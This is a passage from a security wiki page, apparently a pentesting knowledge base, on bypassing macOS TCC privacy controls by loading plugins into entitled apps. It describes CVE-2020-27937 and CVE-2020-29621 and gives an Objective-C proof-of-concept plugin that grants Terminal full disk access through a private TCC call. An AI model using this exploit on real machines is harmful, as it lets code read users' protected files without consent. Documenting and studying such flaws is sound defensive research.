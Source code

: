 {% content-ref url="../../../macos-proces-abuse/" %}
[macos-proces-abuse](../../../macos-proces-abuse/)
{% endcontent-ref %}

Moreover, the most common process injection to bypass TCC found is via **plugins (load library)**.\
Plugins are extra code usually in the form of libraries or plist, that will be **loaded by the main application** and will execute under its context. Therefore, if the main application had access to TCC restricted files (via granted permissions or entitlements), the **custom code will also have it**.

### CVE-2020-27937 - Directory Utility

The application `/System/Library/CoreServices/Applications/Directory Utility.app` had the entitlement **`kTCCServiceSystemPolicySysAdminFiles`**, loaded plugins with **`.daplug`** extension and **didn't have the hardened** runtime.

In order to weaponize this CVE, the **`NFSHomeDirectory`** is **changed** (abusing the previous entitlement) in order to be able to **take over the users TCC databas**e to bypass TCC.

For more info check the [**original report**](https://wojciechregula.blog/post/change-home-directory-and-bypass-tcc-aka-cve-2020-27937/).

### CVE-2020-29621 - Coreaudiod

The binary **`/usr/sbin/coreaudiod`** had the entitlements `com.apple.security.cs.disable-library-validation` and `com.apple.private.tcc.manager`. The first **allowing code injection** and second one giving it access to **manage TCC**.

This binary allowed to load **third party plug-ins** from the folder `/Library/Audio/Plug-Ins/HAL`. Therefore, it was possible to **load a plugin and abuse the TCC permissions** with this PoC:

```objectivec
#import <Foundation/Foundation.h>
#import <Security/Security.h>

extern void TCCAccessSetForBundleIdAndCodeRequirement(CFStringRef TCCAccessCheckType, CFStringRef bundleID, CFDataRef requirement, CFBooleanRef giveAccess);

void add_tcc_entry() {
    CFStringRef TCCAccessCheckType = CFSTR("kTCCServiceSystemPolicyAllFiles");
    
    CFStringRef bundleID = CFSTR("com.apple.Terminal");
    CFStringRef pureReq = CFSTR("identifier \"com.apple.Terminal\" and anchor apple");
    SecRequirementRef requirement = NULL;
    SecRequirementCreateWithString(pureReq, kSecCSDefaultFlags, &requirement);
    CFDataRef requirementData = NULL;
    SecRequirementCopyData(requirement, kSecCSDefaultFlags, &requirementData);
    
    TCCAccessSetForBundleIdAndCodeRequirement(TCCAccessCheckType, bundleID, requirementData, kCFBooleanTrue);
}

__attribute__((constructor)) static void constructor(int argc, const char **argv) {
    
    add_tcc_entry();
    
    NSLog(@"[+] Exploitation finished...");
    exit(0);
```
